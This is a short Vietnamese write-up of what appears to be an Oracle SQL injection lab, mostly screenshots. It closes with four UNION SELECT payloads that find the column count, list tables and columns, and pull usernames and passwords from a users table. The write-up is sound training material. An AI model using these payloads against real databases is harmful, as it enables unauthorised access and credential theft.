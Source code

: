 ![image](https://github.com/user-attachments/assets/65456427-0e64-4454-b92e-af739fb1600e)

![image](https://github.com/user-attachments/assets/2a862363-d1c2-43fb-89fd-6f6ad23508a9)

![image](https://github.com/user-attachments/assets/286f6ef1-8e76-4c3e-b1b9-506f00fe964b)

Tiến hành check thì trong câu query có 2 cột.

![image](https://github.com/user-attachments/assets/bf6fa58c-d11e-4816-b299-4cb4f0e9b092)

Tiến hành lấy thông tin.

Ta có được tên bảng chứa username, passwd rồi, tiến hành chui vào xem tiếp nào.

![image](https://github.com/user-attachments/assets/231c82a7-66bd-4ea2-bb36-f9d114eb4e07)

Ta đã có được tên cột, tiến hành select tên cột ra thôi.

![image](https://github.com/user-attachments/assets/2e77d238-e61b-4791-ac76-4876ec8b7bca)

![image](https://github.com/user-attachments/assets/287f3c62-d978-47d7-8fab-2d09cb3f0a87)

Vậy là đã thành công.

Payload:

```
'+UNION+SELECT+null,null+FROM+dual--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```

Challenege này cũng khá dễ, chúng ta chỉ cần biết syntax là lượm thôi.

## REFERENCES
[1]. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md
